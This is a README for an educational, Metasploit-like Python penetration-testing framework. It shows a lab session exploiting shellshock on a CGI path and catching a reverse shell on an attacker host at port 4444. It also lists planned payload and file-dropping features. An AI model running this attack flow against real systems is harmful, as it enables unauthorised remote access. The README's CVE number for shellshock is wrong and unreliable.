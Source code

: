 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
$ pysploit.py
[+]	New session created
[*]	Starting the network handler
	[+]	Network handler started successfully!
[*]	Initializing all the initializables

         ,__________    ,__
        /   __      |  /  /
       /   /_/  /|   \/  /
      /   ,____/  \     /
     /   /        /    /
     `--'         `---' sploit

$ pysploit> exploit load shellshock
$ exploit (shellshock)> exploit options
[~]	Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
$ exploit (shellshock)> exploit set victim_ip 192.168.56.101
$ exploit (shellshock)> exploit set victim_port 80
$ exploit (shellshock)> exploit set attacker_ip 192.168.56.102
$ exploit (shellshock)> exploit set attacker_port 4444
$ exploit (shellshock)> exploit set cgi_path /cgi-bin/status
$ exploit (shellshock)> exploit set payload None
$ exploit (shellshock)> exploit options
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		192.168.56.101
victim_port             |		80
attacker_ip             |		192.168.56.102
attacker_port           |		4444
cgi_path                |		/cgi-bin/status
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
$ exploit (shellshock)> exploit run
[*]	Checking for vulnerability
	[*]	Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+]	Received vulnerable output from target!
	[+]	Target 192.168.56.101 is vulnerable to shellshock
[*]	Running exploit for shellshock on 192.168.56.101
	[*]	Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+]	Exploitation completed!
$ exploit (shellshock)>
```

And on our listening machine...

![We have a catch](https://github.com/spencerdodd/pysploit/blob/master/imgs/example-catch.png "catch img")

As easy as that!

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)